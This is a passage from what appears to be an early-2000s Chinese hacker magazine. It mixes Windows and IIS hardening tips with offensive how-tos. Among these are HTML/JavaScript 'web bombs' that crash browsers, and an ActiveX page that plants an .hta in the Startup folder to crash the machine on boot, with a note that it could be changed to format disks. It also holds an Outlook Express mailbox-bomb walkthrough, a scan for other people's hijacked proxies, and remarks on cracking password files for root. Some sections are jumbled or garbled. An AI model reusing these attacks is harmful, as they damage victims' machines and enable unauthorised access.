如果使用 Windows 2000/XP，可以通过禁用“远程注册表服务”来阻挡部分恶意脚本。具体方法是：在“控制面板”→“管理工具”→“服务”中右键单击“Remote Registry Service”，在弹出的菜单中选择“属性”；打开属性对话框，在“General”内将“Startup type”设为“Disabled”。这样也可以拦截部分恶意脚本程序。

## 三、修改注册表

既然那些网站是通过修改注册表来“黑”我们的，当然我们也可以把它改回来，这也是反修改的关键部分。不过，改注册表的前提条件是大家对注册表已经有一定的了解。注册表是 Windows 的灵魂，所以在修改之前，大家最好做个备份，以防不测。

网上的恶性站点也想到了我们会通过改注册表来使计算机恢复原貌，因此，有的恶性代码把注册表禁用了，或者再屏蔽开始菜单的运行选项。不过魔高一尺，道高一丈，下面就一一破解其中的限制。

### 1. 解除注册表禁用状态

新建一个文本文件，输入以下内容：

```
[REGEDIT4]

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

以“unlock.reg”为文件名保存,打开该文件,将其加入注册表，这样注册表就解锁了。

### 2. 恢复开始菜单的运行命令

进入 C:\WINNT (Win9X 的用户为 C:\WINDOWS)，找到“regedit.exe”，双击它就可以打开注册表编辑器。接着定位到：HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer，找到“NoRun”值项，右键单击，选择“修改”（或者直接删除更好），把它的值改为 0，重新启动电脑即可。

### 3. IE 浏览器的标题栏被修改

这是常见的修改IE浏览器的方式。它的反修改也很容易，首先打开“开始”菜单，选“运行......”命令，在弹出的输入框中输入“regedit”，点击“确定”即打开了注册表编辑器。然后请定位到：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer\Main 、
HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main 及 HKEY_USERS\.DEFAULT\Control Panel
```

3 处子项，你会发现在它们下面都有一个叫“Window Title”的值项（也可能只有一处有，关键是要修改 HKCU 的值项）；用鼠标右键单击该值项，在弹出菜单选择“修改”，将它修改为默认的“Microsoft Internet Explorer”或者任意你希望看到的语句；最后，关闭注册表编辑器并打开一个新的IE浏览器窗口，就能看到你设定的效果。

### 4. 浏览器的首页选项被修改

这可能是目前比较黑的一个问题。一开始的时候解决这个问题很简单，在IE 的菜单中选择：“工具”->“Internet 选项”->“常规”，在“主页”一栏中进行修改即可。但是有些代码更黑，首页被修改的同时，IE 的“主页”选项也被禁用（按钮呈灰色不可用状态）！不过，没问题，现在我们就来解决这个问题。

打开注册表编辑器。定位到：HKEY_LOCAL_MACHINE\Software\Policies\ Microsoft\Internet Explorer\Control Panel 及 HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel(这里如果你是使用 Windows 2000 用户指更改 HKEY_CURRENT_USER 下即可)两处子项，你会发现一个名为 HomePage 的 DWORD 值项，值为：1。不必犹豫，直接删掉它，或者把值改为 0；然后，关闭注册表编辑器，新开一个IE 浏览器，再依次点击“工具”->“Internet 选项”->“常规”，你就会发现原来呈灰色的修改IE主页的按钮已经恢复到了可编辑状态。此时，你就可以按自己的喜好随意设定浏览器的主页了。

### 5. 开机后自动弹出一个网页

如果你每次开机后都会弹出一个IE 浏览器，那就请你记住地址栏里的网址，然后打开注册表编辑器，定位到：HKEY_CURRENT_USER \Software\ Microsoft\Windows\CurrentVersion\Run HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Runonce，看看在该子项下是否有一个以这个网址为值的值项。如果有，删除它，下次开机时就不会再有浏览器弹出了。不过有时候这样也未必能解决问题。遇到这种情况，你可以在注册表编辑器的菜单里选“编辑”->“查找……”，在“查找”对话框内输入开机时自动打开的网址，然后点击“查找下一个”，将查找到的值项删除。另外，如果你是使用 Win98 的用户，请在“开始”菜单中的“运行”对话框内输入“msconfig”，点击“确定”，打开“系统配置实用程序”并点击“启动”选项卡，检查其中是否有可疑的启动项，有的话，请将其禁用（去掉程序前的勾），然后重启系统查看效果。

以上我们给出了一些防止和补救的方法，当然最好的避免方法就是少去或不去那些不明的个人主页和小网站（不过，有时这些地方往往放了很多好东东），还要提醒那些使用这种恶意代码的站点，这样不仅不能提高网站的访问量，还会在访问者中造成恶劣的影响，得不偿失。

# 安全隐患测试 4 则
文/飘叶

提起飘叶这个人不知道读者是不是很熟悉，不过一提到他写的“飘叶千夫指”等黑客软件大家就都领教过了吧？本期，飘叶则以很简单的方法做了4种测试，也许读者会因此发现网络中的种种安全隐患，从而提高上网安全意识。

也许大家已通过报纸、新闻了解到什么叫黑客，网络上、个人电脑上存在着许多的安全隐患，也许一部分刚上网的人偏不信：难道现实生活中真的有这样无所不能的黑客高手吗？就算有，我只是偶尔上一下网而已，对我构不成什么危害吧？这么想，那你就是大错特错了。下面我们就从几个角度来看看网络到底有多不安全吧。

## 1. 试试你的系统安不安全

大家是否知道我们常用的操作系统Windows 98是从Windows 95的基础上修改了多达3000多个错误才发展起来的？3000多呀，想想这是个什么样的数量概念。虽然对编写软件来说，偌大的那么一个系统，出现这么多的错误是可以理解的，但对用户来说，万分之一的机会中了“头奖”，偏偏遇到了这三千分之一的一个错误，可能造成致命的后果。

不信？真的不信？好，我们来作一个试验，如果你的系统是Win98的话，你是必死无疑的了。别担心，不是你死，只是你的电脑死罢了，重启就可解决，不必担心会影响系统。好了吗？有足够的心理准备了吧？

用鼠标点击你电脑上的“开始”→“运行”，输入c:\con\con，然后按下“确定”！

你该口吐白沫，昏倒在地了吧？一片蓝色的屏幕，中间是几行白色的英文错误提示，好像又回到了DOS时代的字符界面了吧？这就是Windows中的臭名昭著的“蓝屏”。在Windows中有许多的错误，对错误的提示，微软并没有去编写Windows的图形界面，甚至也没有对其进行错误后的处理，这就造成了Windows的死机，就算你按了什么键能返回Windows界面，但也是动弹不了的，不得不重新启动。

下面有人举手了：“我知道这个会造成死机，我为什么还要去运行它呀？我才没那么笨，自己找死！”

好！我们再来，打开一个IE窗口，在地址栏输入file\c:\con\con回车，欲哭无泪了吧？我们都知道网上有许多网页是有超级链接的，如果有一个链接的地址是这一串羊肉串的话，不幸的是又恰好被你无意按了，哈哈，你就吃不了兜着走吧！在一些聊天室中，还可以根据这个做成炸弹，根本不用你按，当你与MM聊得天花乱坠的时候，突然就让你“蓝屏”蓝得眼睛发青光了！

在这一串字符中，con就是操作系统的保留设备名，指的是屏幕，还有其他设备名如NUL、AUX、CLOCK$、CONFIG$等等，Windows 9x刚好有这个漏洞，在解释这些设备名的时候都会出错，引起“蓝屏死机”。

随着Windows各式各样的漏洞的不断发现，黑客便利用这些漏洞对Windows系统进行攻击。

## 2. 看看你的邮箱安不安全

好了，再来看看我们上网用得最多的电子邮箱的安全性如何。大家上网大部分都是申请免费的电子信箱，但这些信箱都有一个容量限制，有的是5M，有的是10M，但不管如何，当你的信箱塞满信件后，你就不能再收了。一般情况下，我们都是收到信看完就删，或下载到自己的电脑上保存而删除信箱中的，加上我们常作收信处理，这样有5M空间也就足够了，不至于有塞满的情况出现。如果你的信箱受到了恶意攻击，不停地收到上千上万封无用的垃圾信件，用不了多少时间就可以把你的信箱塞满了。如果你没有及时把它们删除，那就意味着你没法再收到正常的邮件了。

下面又有人要发言了：“你不知道现在好多收信软件上都有一个按键叫删除所有邮件的吗？这样的攻击根本没用，我只要一按就行了！”说得好！如果你的信箱是业务联系信箱，同时收到一些正常的业务来往信件，你就得在这上万封的信件中做出选择，到底是全部删除，还是从上万封信件中挑选出正常的信件！头痛了吗？

如何攻击？可以说我们随手就能够找到一个武器来攻击你的信箱，看看你桌面上，那个Outlook Express就是！咦？这不是我们用来收发电件的软件吗？怎么变成了信箱炸弹了？

又不信？好，运行它，选取菜单上的“工具”-“帐号”，然后在“邮件”选项卡中选中你的帐号，按下“属性”按键，再选中“高级”选项卡，在里面的发送设置“拆分大于60KB的邮件”的前面打上勾，并把60KB改成16KB。好了，按下“确定”退出设置。一个邮箱炸弹就做好了！放松一下你无比紧张的心情！再来学放炸弹。

现在开始编辑一封新邮件，收件人的地址嘛，当然是你自己的信箱地址了，其他随你填吧，关键是一定要带上附件，随便选择你硬盘中的一个大文件吧（至少得大于16KB），一切搞定后，立即发送这封信件。

现在打开你的信箱吧，看看炸得怎样了？如果你选择的附件是1600KB（即1.6MB）的话，每16KB就得拆成一封信，也就是现在你的信箱收到了100封信！

不过这个炸弹效力还是小了点，能不能把16KB改成1KB？那就会将1.6MB的附件变成1600封信。再在刚才的帐号属性设置中输入1KB试试，看到什么？“请输入介于16和1600KB之间的值用于拆分邮件”。想不到微软也来这一手，那就没办法了吗？别急，再看看刚才的“帐号”选项卡中，发现了什么？一个“导入”和“导出”按键，这就是把你的帐号设置值导出保存成iaf的帐号文件。如果你有点计算机基础知识功底的话，就可找一个十六进制编辑器轻而易举地把导出的iaf文件中的16KB改成1KB，再导入即可。这回微软可管不了你了，破坏力强大的炸弹就做成啦！

### 3. 你的OICQ会受到骚扰吗

在中国，最成功的通讯类软件恐怕非OICQ莫属，目前OICQ用户已经突破450万，树大招风，自然招到各路编程高手的青睐，随便上网搜索一下，即可找到上百多个针对OICQ的工具软件。OICQ密码破解被盗已成泛滥之势，难怪腾讯公司要在其主页上设立一个“密码被盗申诉”！

如果你是在网吧使用你的OICQ，稍不注意的话（也许由不得你注意），可能下次你的OICQ号码就不跟你姓了。

在众多的OICQ工具中，最流行的就是邹丹的OICQ查IP补丁，它可让你的好友的IP一览无余，连大约在哪个地理位置上网都显示出来。哈哈，有了对方IP，施放炸弹、入侵可就方便了。

当然也不得不提一下“飘叶OICQ千夫指”，不要说我是王婆卖瓜哦！在OICQ2000以前的版本中，大概腾讯是太过急功近利了，使用了明文传输通讯协议，大家可以想像一下这意味着什么？刚好飘叶急需解决上网无端被人骂得狗血淋头的问题，于是就针对这漏洞编写了一个专门指责别人的软件“飘叶OICQ千夫指”，当然，副作用还可对MM不停地说同一句肉麻的话喔！：）但最大的副作用是不断冒充陌生人让对方不停地弹出窗口，最后使其耗尽资源而死机，这是我编写时都没有想到的！

幸好腾讯快速反应，很快推出OICQ2000版，采用了加密协议，从而解决了明文传输的问题。千夫指也就失效了！

不过没关系，“第二代飘叶OICQ千夫指”也随之而出，不过不会再冒充号码了，也不会致人死机。

## 4. 编个网页浏览下看看你的机器死不死

（注：由于CNTT的漏洞，如果你要试验下面的例子时，请把其中的圆括号、方括号换成半角的才能运行！哈哈，CNTT的这个漏洞可是致命的，可以使Win98的机子浏览时造成死机！）

在第一节我们已谈过了Windows的CON漏洞，利用这个漏洞，我们可编一个网页，在该网页上放一幅图片，图片的地址就含有：file\c:\con\con之类的东东，你浏览后就必死无疑了！代码如：

```html
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<title>网页炸弹1</title>
</head>
<body>

</body>
</html>
```

不过，此类网页炸弹对 Windows ME 或 Windows 2000 已构不成威胁了，微软已堵塞了此漏洞。

“幸好” Windows 是千疮百孔的，我们最近又发现了它的一个打印漏洞！这不，又一个网页炸弹炸得你体无完肤：

```html
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<title>网页炸弹2</title>
</head>
<body>
<script>
window.print();
</script>
</body>
</html>
```

还有一种经典的网页炸弹，利用 JavaScript 语句编成自动弹出本身的窗口，结果形成恶性循环，致使 Windows 资源耗尽而死机。如把下面的网页存成 kill.htm 的文件名：

```html
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<title>网页炸弹3</title>
</head>
<body>
<script LANGUAGE="JavaScript">
<!--
window.open("kill.htm");
// -->
</script>
</body>
</html>
```

略修改一下，利用 JavaScript 语句弹出一个超大的窗口，同样会引起 Windows 资源耗尽而死机。

怎么样？上网中弹身亡是不是很容易的事？还不算，在我网站上，还有两把“飘叶飞刀”，那才是叫你刀刀见血的！只要你浏览了该“飞刀”网页，嘿嘿……没事，你没什么不良反应，但它已悄悄在你 Windows 的启动组中生成了“飘叶.hta”的文件。知道“启动组”是干什么的吗？就是放你下次重启电脑时要自动运行的东西。哈哈，你死了，下次你启动电脑时它才发作并弹出一个提示窗口：“飘叶飞刀！杀得你口吐白沫，昏倒在地！”你一按该提示窗口的“确定”时，它就让你蓝屏死机。

```html
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<title>飘叶飞刀</title>
</head>
<body>
<object id="scr" classid="clsid:06290BD5-48AA-11D2-8432-006008C3FBFC">
</object>

<SCRIPT>
scr.Reset();
scr.Path="C:\windows\Start Menu\Programs\启动\飘叶.hta";
scr.Doc="<object id='wsh' classid='clsid:F935DC22-1CF0-11D0-ADB9-00C04FD58A0B'></object>";
</SCRIPT><SCRIPT>alert('飘叶飞刀！杀得你口吐白沫，昏倒在地！');</SCRIPT>;
scr.write();
</SCRIPT>
</body>
</html>
```

稍动下脑筋，改动一下就是第二把飞刀了，格式化你的硬盘！！

（谁在后面暗算我？不要啊！救命啊！别打了，我给出解药就是了！）

解除飘叶飞刀方法就是：开机按住 F8 键，选择进入 Windows 安全模式，然后把“开始”→“程序”→“启动”中的“飘叶.hta”文件删除即可！

## FTP中的两种工作方式
文/momo

现在很多 FTP Client 都提供了傻瓜化的操作方式，让使用者很容易操作它。但如果你处于防火墙内的局域网中，使用 FTP 文件传输就不是那么简单的了。这要求网管和文件传输者共同设置一个选项。本文就以这个选项展开深入的讨论，说明一下 FTP 的两种工作方式。

FTP 是一种文件传输协议，它支持两种模式，一种方式叫做Standard (也就是 Active,主动方式)，一种是 Passive (也就是PASV,被动方式)。Standard 模式 FTP 的客户端发送 PORT 命令到 FTP Server。Passive 模式 FTP 的客户端发送 PASV 命令到 FTP Server。

下面介绍一个这两种方式的工作原理。

- 1. Standard模式:FTP 客户端首先和FTP Server 的 TCP 21 端口建立连接，通过这个通道发送命令，客户端需要接收数据的时候，在这个通道上发送PORT命令。PORT命令包含了客户端用什么端口接收数据。在传送数据的时候，服务器端通过自己的TCP 20 端口发送数据。 FTP Server 必须和客户端建立一个新的连接用来传送数据。
- 2. Passive 模式:在建立控制通道的时候，和 Standard 模式类似，当客户端通过这个通道发送PASV 命令的时候，FTP Server 打开一个位于1024 和 5000 之间的随机端口，并且通知客户端在这个端口上传送数据的请求，然后 FTP Server 将通过这个端口进行数据的传送。这个时候，FTP Server 不再需要建立一个新的和客户端之间的连接。

现在的 FTP 软件，包括在 IE5 以上的版本里面也已经支持这两种模式了。一般 FTP 客户端的软件比较好设置，都有一个 PASV 的选项，比如 CuteFTP，传输的方式都有 Standard 和 PASV 的选项，可以自己进行选择。另外，在 IE 里面，如果要设置成 PASV 模式的话，可以选中工具→Internet 选项→高级→为 FTP 站点启用文件夹视图，否则就采用 Standard 模式。

很多防火墙在设置的时候都是不允许接受外部发起的连接的，所以，FTP 的 Standard 模式在内部网络的机器通过防火墙出去的时候受到了限制，因为从服务器的 TCP 20 无法和内部网络的客户端建立一个新的连接，因而无法工作。当然也可以设置成功，首先要创建一条规则，就是允许内部的 IP 连接外部的 IP 的 21 端口；第二条就是禁止外部IP的 TCP 20端口连接内部IP的小于 1024 的端口，这条是为了防止外部连接内部的常规端口；第三条验证 ACK 是否等于 1，这个原理就参见 TCP 建立连接的 3 次握手吧。所以，如果安全配置的话则非常困难，这个时候就想起来了 PASV 模式，因为不用建立新的连接，所以也就不会涉及到后面的问题了。但是，管理员可能不想使用 PASV 模式，因为这个时候 FTP Server 会开放一个随机的高端口，尽管在 IIS4 和 IIS5 里面端口的范围是 1024~5000，但是许多 FTP Server 的端口范围达到了 1024~65535，这个时候，在这个主动开放的随机端口上是有完全的访问权限的，如果 IIS 也要设置成开放的端口为 1024~65535，具体方法如下：

- 1. regedt32
- 2. 找到 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters
- 3. 编辑 - 添加 - 数值

```
Value Name: MaxUserPort
Data Type: REG_DWORD
Value: 65534
```

所以，如果遇到了有防火墙或者怕配置麻烦，还是采用 PASV 模式比较好些；如果真的对安全的需求很高，建议采用 Standard 模式。

# 加固 IIS 5.0 简明攻略
文 / 劲刀狂舞

IIS 可以说是我们最常遇到的 Web 服务器，现在，很多站点用的都是微软 Internet Information Services 作为自己网站的 Web Server，但是微软的漏洞层出不穷，补丁一个接一个，加固 IIS 就显得异常重要。下面我们看看通过一些简单的办法来加固 IIS。

如果你的网站是使用 Microsoft Windows 2000 Server 作为操作系统，很自然的选择 Microsoft Internet Information Services 5 Server 作为 Web Server。当我们起初开始安装并配置一个 IIS 5.0 时，你是否注意到黑客已经盯上你的服务器了？不过你也别怕，问题总是要解决的，笔者查阅了众多的国内外资料，总结了 13 个行之有效的配置步骤。按照以下做法，可以使得你的一台裸机成为一个安全的 Web 服务器。

- 1. 选择原版的 Windows 2000 操作系统安装
虽然微软只发行了一种（4 个版本）Windows 2000 系统，不过市面上有很多更改版的 Windows 2000 系统盘，尤其在盗版市场中更是如此。这里我们建议：如果你有条件，最好使用正版（原版）的系统盘安装，这样，你的安全性会得到更大的提高。而且最好你的服务器是一个专职的 Web Server 服务器，而不要使这个服务器作为一个域的域控制器。最重要的一点，你在安装系统时应该断开服务器的网络连接。

- 2. 在 NTFS 文件格式下安装 Windows 2000 操作系统
NTFS 比 FAT 分区多了安全控制功能，可以对不同的文件夹设置不同的访问权限，安全性增强了。原来的 NT 系统安装在 FAT 分区上，你可以使得这个分区转换成 NTFS 格式。

- 3. 不要使用默认的安装路径
安装过 Windows 2000 的人都知道，Windows 2000 系统默认安装在 C:\WINNT 目录下。你应该改变这个默认目录名字，这里建议起一个不易被猜到的名字。例如，C:\WINOS。
最重要的 IIS 5.0 的默认 Inetpub 文件夹不应该和系统存在于同一个分区，文件夹的名字应该更改。

- 4. 不要在安装的时候为管理员账号加密码
这不是说今后就不加密码了，这个任务我们以后完成。

- 5. 只安装必要的协议
在你不需要 NetBEUI 协议和 IPX/SPX 协议时尽量不要安装它们，以免被人使用 Nbtstat 等工具取得服务器的信息。

- 6. 安装需要配置网络适配器和显示卡
因为一般的显示卡都不使用系统默认的驱动程序，在这个步骤中我们安装。

- 7. 安装 Service Pack 2 for Windows 2000 等相关补丁程序
在这一步中，我们安装 Service Pack 和最新版本的 hotfixes。

- 8. 删除和停用以下示范用的程序和目录

| 条目 | 位置 |
|---|---|
| IIS | C:\Inetpub\iissamples |
| Admin Scripts | C:\Inetpub\AdminScripts |
| IIS Documentation | %systemroot%\help\iishelp |
| Data Access | C:\Program Files\commonfiles\system\msadc |

- 9. 安全配置 Telnet 服务
建立一个本地的 TelnetClient 组，加一个允许 Telnet 这台服务器的用户到这个组 TelnetClient 里。你建立了这个组，只有这个组里的人才能登陆 Telnet Server。如果你不需要 Telnet 服务，可以停用。

- 10. 设置适当的访问控制权限

## BEGINNERS'CLASS

>栏目编辑>Derek&Heavyd>hacker@hacker.com.cn

微软推荐的访问控制权限有:

| 文件类型 | 访问控制权限 |
| :--- | :--- |
| CGI (.exe, .dll, .cmd, .pl) | Everyone (X) |
| | Administrators (Full Control) |
| | System (Full Control) |
| Script Files (.asp) | Everyone (X) |
| | Administrators (Full Control) |
| | System (Full Control) |
| Include files (.inc, .shtm, .shtml) | Everyone (X) |
| | Administrators (Full Control) |
| | System (Full Control) |
| Static content (.txt, .gif, .jpg, .html) | Everyone (R) |
| | Administrators (Full Control) |
| | System (Full Control) |

## 11. 检查 Ftproot 和 Mailroot 的访问控制权限

在默认的情况下，ftproot 和 mailroot 两个目录对于 Everyone 是完全控制 (Full Control)。虽然微软对这些文件夹没做说明，不过还请管理员注意这里的访问控制权限。如果你的服务器不需要 FTP 和发送 Mail，你可以删掉这些文件夹，关掉相关服务。

## 12. 设置 IIS 日志文件的访问控制权限

默认情况下，我们的 IIS 日志会在“%systemroot%\system32\logfile”目录下。微软推荐如下的访问控制权限:

- Administrators (Full Control)
- System (Full Control)
- Everyone (RWC)

如果可能，请将日志的路径修改到别处，因为这样经常导致一些黑客入侵后直接使用命令就删除了，即使删除不掉，也可能使用其他文件给覆盖掉了。你换个地方放置这些日志，至少让黑客们找的时候有些麻烦。

## 13. 删除危险的脚本映射

这里，如果你暂时不需要下面的脚本映射，完全可以删除:

| 脚本类型 | Mapping |
| :--- | :--- |
| Web-based password reset | .htr |
| Internet Database Connector | .idc |
| Server-Side Includes | .stm .shtml .shtm |
| Internet Printing | .printer |
| Index Server | .ida .idq .hta |

在 IIS 管理器中删除必需之外的任何无用映射，必需指的是 ASP、ASA 和其他你确实需要用到的文件类型，例如你用到 shtml 等 (使用 server side include)，实际上 90% 的主机有了上面两个映射就够了。具体设置是在 IIS 管理器中右击主机→属性→WWW 服务 编辑→主目录 配置→应用程序映射，然后一个个删除。禁止别人访问你的上一层目录，设置办法：站点属性→主目录→配置→应用程序选项→启用父目录，将旁边的勾去掉即可。

## 14. 最重要的一点：刚刚删除的脚本都是很危险的

如果你执意要使用以上的映射，今后在运行 IIS 的过程中要勤打补丁，不要懒惰。对了，把开始没有加的管理员密码加上，上网吧。

# 破解美萍卫士禁止使用注册表编辑器

美萍卫士确实是一个很好的系统管理软件。在我最初接触它时，发现它总是禁止你使用注册表编辑器，起初认为它同魔法兔子一样：将 format.com 改为 format.co_，并且只是改在 Windows\command\ 下的 format.com。如将 format 拷贝到其他盘或目录下，format 仍然能用。于是将 regedit.exe 拷贝到其他路径并改名，执行后仍然被关闭。于是认为它是通过注册表禁止运行指定程序。然而通过数次实验，不对。是不是它禁止了 system.dat 及 user.dat 呢？这个设想也以失败告终。经过几天的思考，于是用 VC++ 做了一个小程序，起名为“注册表编辑器”，之后运行美萍卫士。结果啥样呢？终止程序运行。答案已经很清楚了！美萍卫士是通过读取注册表编辑器的窗口名称，如果是“注册表编辑器”则发送 WM_CLOSE 消息终止运行。于是又编写了一个 TRY 程序，在一个按钮中加入如下语句:

```cpp
CWnd *pWnd = CWnd::FindWindow(NULL, "注册表编辑器"); //找到窗口名为注册表编辑器的程序并返回其pWnd
if (pWnd)
{
    pWnd->SetWindowText("xlmlovel"); //如果成功发送消息
}
```

编译后，运行美萍，运行注册表编辑器后，点击 TRY 的按钮。“注册表编辑器”已经被改为“xlmlovel”了。同时注册表编辑器也呈现在你的面前了。同理也可以改写其他禁止的系统程序。读者可以试一试，本人用的是 VC++6.0。

使用代理服务器可以使得网友上网更加快速安全。不过，现在找到一个好的免费代理非常难，有人甚至发明了在肉鸡上自己做代理的方法。不过本文的作者却很聪明，他利用现有的网络知识寻找别人使用的代理服务器。这种方法值得广大菜鸟借鉴。

## 教菜鸟找到QQ代理的端口号

文/z33

上网时，可以显示 IP 的 QQ 里经常会看到一些本来应该在国内的好友，IP 却显示为台湾、日本、韩国等，这是因为这个 IP 的好友用了 QQ 的 Socks5 代理。当然，这类代理服务器可以到一些代理的网站去找公开发布的 IP，不过这些 IP 由于用的人太多，很快会失效。


描参数”项，在基本设置页中的“指定 IP 范围”文本框中输入刚才记下的代理服务器的地址。勾选“显示详细进度”。如图 3 所示。

而我们经常在网上遇到一些人有自己专用的 QQ 代理服务器，是他们自己用肉鸡做的。一般来说谁都不会轻易把代理服务器的端口告诉你，虽然我们可以从显示 IP 的 QQ 上看到代理服务器的地址，但没有端口号也是没有用的。我现在就来告诉各位菜鸟，如何去找到那些你只知道 QQ 代理服务器地址而不知道端口号的电脑的代理端口号。


现在开始跟我做。假设你发现一个用 QQ 代理的家伙，可以看到他的代理服务器 IP 是 211.181.xxx.xxx，我们把他的代理地址记下来，记冒号前面的地址就行了，端口不用记，没用。如图 1 所示。


然后在“端口相关设置”页输入“1-9999”，检测方式为“TCP”，点“确定”！如图 4 所示。


现在我们来打开 X-scan。先点“设置”菜单下的“扫描模块”项，出现扫描模块窗口，点“清除”按钮，再点“确定”。如图 2 所示。

接下来，再继续点“设置”菜单下的“扫描模块”项。最后我们点一下文件菜单下的“开始扫描”。

好了，X-Scan 开始工作，如图 5 所示。


过了 10 分钟，你再回来看看，这时，X-Scan 已经把端口扫描完了。我们点“扫描结果”就可以看到了，一共开放了 13 个端口，如图 6 所示。

OK，这个服务器总共就开了 13 个端口，其中一个就是 QQ 代理的端口，我一个个在 QQ 上试一试，其中 Unknown Service 先试。

打开 QQ，在“系统参数”中的“网络设置”页里有个“代理设置”，勾选“使用 SOCKS5 代理服务器”，再把代理服务器地址，就是我们扫描的这个地址填上，在端口号上填入扫描结果中找到的端口号，挨个试一下，并且要把“校验用户名”和“校验用户密码”空着。点“测试”按钮，如果端口错误，就会提示“无法连接到代理服务器”，成功，则显示“代理服务器工作正常”。最后，我们试出来的 QQ 代理端口为 7761。如图 7 所示。


这样，这个 QQ 代理已经到手了。赶快重新登陆你的 QQ 试试吧。


# 如何将 FAT 分区转换为 NTFS

Windows 2000/XP 提供了分区格式转换工具“Convert.exe”。Convert.exe 是 Windows 2000 附带的一个 DOS 命令行程序，通过这个工具可以直接在不破坏 FAT 文件系统的前提下，将 FAT 转换为 NTFS。它的用法很简单，先在 Windows 2000 环境下切换到 DOS 命令行窗口，在提示符下键入：

```cmd
D:\>convert 需要转换的盘符 /FS:NTFS
```

如系统 E 盘原来为 FAT16/32，现在需要转换为 NTFS，可使用如下格式：

```cmd
D:\>convert e: /FS:NTFS
```

所有的转换将在系统重新启动后完成。

此外，你还可以使用专门的转换工具，如著名的硬盘无损分区工具 Partition Magic，使用它完成磁盘文件格式的转换也是非常容易的。首先在界面中的磁盘分区列表中选择需要转换的分区。从界面按钮条中选择“Convert Partition”按钮，或者是从界面菜单条“Operations”项下拉菜单中选择“Convert”命令。激活该项功能界面。在界面中选择转换输出为“NTFS”，之后单击“OK”按钮返回程序主界面。单击界面右下角的“Apply”添加设置。此后系统会重新引导启动，并完成分区格式的转换操作。

最近，《黑客防线》应广大读者反映刊登了一些 UNIX 系统的入侵实例，但有些读者却因为不熟悉 UNIX 系统的命令而影响了阅读。本期我们列举了 UNIX 下常用的命令供读者参考，希望可以起到辅助阅读的作用。

# 需要知道的 Unix 命令

文/银蜥蜴

这里有一些你需要学习的基本命令和一些能帮你登陆或者保持你的权限的 UNIX 程序。

## 一、基本命令

我希望你能有一些基本的 DOS 知识，这样会对你有一些帮助，而且在写这篇手册时，我会假设你已经具备一些 DOS 基础了。经常使用的 DOS 命令如下:

(记住: UNIX 是区分大小写的，所以，如果我使用小写，你也得使用小写，如果我使用空格，你也得使用空格。DOS 会忽略大小写，但是 UNIX 不会! )

```bash
DIR/W = ls
DIR = ls -l
DIR/AH = ls -al AH=(hidden) -al=(include hidden files as well as regular)
RENAME = mv
ATTRIB = chmod
MD = mkdir
RD = rmdir
DEL = rm
COPY = cp
```

以上这些全是基本的命令，我建议你在 UNIX 外壳的帮助页面查找一下这些命令。你可以输入“man command”去查找。每一个命令都有参数，比如：cp -R，拷贝文件和目录。你可以输入“man cp”来得到 cp 命令的所有参数。

- cd {然后按回车} 可以回到你的主目录。
- cp 文件名 $HOME 拷贝文件到你的主目录。
- cd ~用户名 进入这个用户的主目录，但是前提条件是你必须有访问权限。
- pwd {按回车} 显示你现在所在目录。

## 二、Telnet

Telnet 是一个能在外壳环境下使用的命令，或者是一个在 Windows, OS/2, Windows95 和其他一些操作系统下的 exe 文件 (telnet.exe)，它可以让你通过网络连接上另一台计算机。在这里，你还可以学到其他一些程序，比如：FTP 和 Rlogin。但是现在我们先来看看 Telnet。

如果知道你想连接的计算机的 IP 地址或者主机名，你可以使用 Telnet。用 Telnet 程序连接那个 IP 或者主机，你应该使用下面这个命令：
Telnet netxxx.com or telnet 206.xxx.xx.xx

好了，现在登陆：

```bash
telnet machxxx.com
trying...
Connected to machxxx.com
Linux 2.0.28 (machxxx.com) (ttyp0)
machine login:username
password:########
bash$
```

你的提示符可能会不一样，但是我们以现在这个来讲。注意上面的那个“bash$”，这意味着，你已经登陆成功，并且进入系统。如果你已经收集到大量的口令文件，那么你就可以使用 Telnet 了。在破解密码文件以前，最好用 telnet 看看对方运行的是什么系统。这里还有另外一种方法，就是让 Telnet 的标题持续显示。telnet domain.name.com，在你看清楚后，再用“Ctrl ]” 来结束连接。首先，把你所有的 Linux 口令文件都集中起来破解。我们所需要的也就是一个系统中的账号，我们几乎可以肯定，我们将在那台机器上得到 root 权限。

## 三、Unix 文件许可

```bash
bash$
bash$ cd /tmp
bash$ ls -l
total 783
-rwx------ 1 wood users 1 Jan 25 18:28 19067haa
-rw-r--r-- 1 berry mail 1 Jan 16 12:38 filter.14428
-rw------- 1 rhey19 root 395447 Jan 24 02:59 pop3a13598
-rw------- 1 rhey19 root 395447 Jan 24 03:00 pop3a13600
drwxr-xr-x 4 root root 1024 Jan 12 13:18 screens
```

首先注意到，我们使用一个“/”而不是“\”来改变目录！Unix 使用“/”作为根目录，所以这一点与 DOS 不同。

注意，我们输入“ls -l”来查看长目录。如果我们输入“ls”，我们将得到如下显示：

```bash
bash$ ls
19067haa filter.14428 pop3a13598 pop3a13600 screens
```

以上看到的输出结果不能让我们了解详细信息，所以，一般情况下，我们都会使用“ls -al”，使用参数“-al”，我们还将看到隐藏文件，隐藏文件和目录名将总是以一个“.”开头。看如下显示：

```bash
bash$ ls -al
total 794
drwxrwxrwt 4 root root 8192 Jan 25 23:05 .
drwxr-xr-x 22 root root 1024 Dec 28 18:07 ..
-rw-r--r-- 1 berry users 6 Jan 25 23:05 .pinetemp.000
drwxr-xr-x 2 berry users 1024 Jan 25 23:05 .test
```

```bash
-rwx------ 1 wood users 1 Jan 25 18:28 19067haa
-rw-r--r-- 1 berry mail 1 Jan 16 12:38 filter.14428
-rw------- 1 rhey19 root 395447 Jan 24 02:59 pop3a13598
-rw------- 1 rhey19 root 395447 Jan 24 03:00 pop3a13600
drwxr-xr-x 4 root root 1024 Jan 12 13:18 screens
.pinetemp.000 is a hidden file, and .test is a hidden directory.
-rw-r--r-- 1 berry mail 1 Jan 16 12:38 filter.14428
